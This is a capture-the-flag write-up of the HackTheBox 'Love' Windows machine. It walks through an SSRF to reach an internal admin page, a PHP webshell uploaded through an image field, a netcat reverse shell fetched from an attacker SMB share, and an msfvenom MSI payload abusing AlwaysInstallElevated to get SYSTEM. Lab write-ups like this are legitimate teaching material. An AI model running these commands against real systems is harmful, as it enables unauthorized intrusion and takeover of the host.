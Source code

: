 ```yaml
---
title: Love Writeup [HTB]
tags: [HackTheBox, Server Side Request Forgering, AlwaysInstallElevated]
image: /assets/images/love/love.png
published: true
banner: true
---
```


Love is a Windows based machine that was active since May 1st of 2021 to August 7th, on this machine we will take advantage of and SSRF vulnerability to access to page that is only accesible from the inside, then get access to system that allows us to upload arbitratry files, upload a php webshell and use it to get a reverse shell, finally we will find that "AlwaysInstallElevated" is enabled, so we generate a msi reverse shell and when we install it we get a shell as system.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.239
nmap -sC -sV -p 5040,5986,49667,5985,3306,5000,443,135,47001,445,49669,49668,49666,49665,139,49664,49670,80, -Pn -o scan.txt 10.10.10.239

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest, Kerberos, LANDesk-RC, NotesRPC, SSLSessionReq, TerminalServer, TerminalServerCookie, WMSRequest: 
|_    Host '10.10.14.109' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-06T19:59:27+00:00; +32m28s from scanner time.
| tls-alpn: 
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC

Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h17m29s, deviation: 3h30m03s, median: 32m27s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-06T12:59:14-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-06T19:59:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 14:27:00 2021 -- 1 IP address (1 host up) scanned in 183.54 seconds
```

We see a lot of ports open and according to some we can say it is a windows box, also there is a webpage over http and https and another one on port 5000, according to nmap the certificate of the https site belongs to "staging.love.htb", we could also have checked manually the certificate to find this out, so we add that domain to our hosts, ok now let's check one site at time, starting for "http://love.htb/".

![](/assets/images/love/lovesite.png)

It seems like a kind of voting system site, we don't have credentials so probably not much we can do for now, so let's try "http://staging.love.htb/".

![](/assets/images/love/stagingsite.png)

It says secure file scanner, also you could suscribe to something that looks like a news mail system, but most important it has a demo site, if we go to it we see something interesting.

![](/assets/images/love/demo.png)

So it says we can enter a file url and it will scan it, if we start a http server and try to access to our scan file we see that it retrieves it.

![](/assets/images/love/scan.png)

After testing that page for a while it seems like there is no RFI nor LFI, so let's go to https site.

![](/assets/images/love/https.png)

We get a forbidden status, after bruteforcing and trying to bypass the forbidden with some proxy like headers we get nothing, something similar happens with port 5000.

![](/assets/images/love/5000.png)

# [](#header-1)Gaining Access

But we don't need to bypass the forbidden, we have a page that retrieves any page for us, so let's try to use it to request itself, se we can try to retrieve the website on port 5000.

![](/assets/images/love/ssrf.png)

We got some credentials for admin on the vote system, running feroxbuster we found that there is an admin panel on "http://love.htb/admin/", we go there and access with the credentials that we got.

![](/assets/images/love/votingadmin.png)

If we search about this page we find that the source code is hosted on [sourcecodester](https://www.sourcecodester.com/php/12306/voting-system-using-php.html), what we sould do here on an actual engagement should download the source code and analyze it in search of vulnerabilities, but I decided to poke around the application first, so if we go to voters we see that we can add a new one and upload a photo, so let's try to upload a simple php web shell named test.php, now if we go to `http://love.htb/images/test.php?subterranean=whoami` we get the output of the command, I don't like using "cmd" as parameter since it would be a really easy to catch webshell.

![](/assets/images/love/webshell.png)

So now that we have a webshell let's get a reverse shell, first we copy nc.exe to our current directory, then we start a smb server, `sudo smbserver.py share . -smb2support`, finally we access to `http://love.htb/images/test.php?subterranean=\\10.10.16.34\share\nc.exe%20-e%20cmd.exe%2010.10.16.34%2054321`, and we get our shell and retrieve user.txt.

![](/assets/images/love/shell.png)

# [](#header-1)Privilege Escalation

Running winpeas reveals something interesting, AlwaysInstallElevated is enabled.

![](/assets/images/love/peas.png)

We can check manually this by running:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

So to exploit it first we have to generate an msi file: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.34 LPORT=54322 -f msi -o shell.msi`, impacket's smbserver is a bit unstable sometimes, so I changed to samba service to start a shared directory, so on the shell that we have on the machine we run `msiexec /quiet /qn /i \\10.10.16.34\share\shell.msi`, and with that we will get a shell as system and finish with the machine.

![](/assets/images/love/system.png)
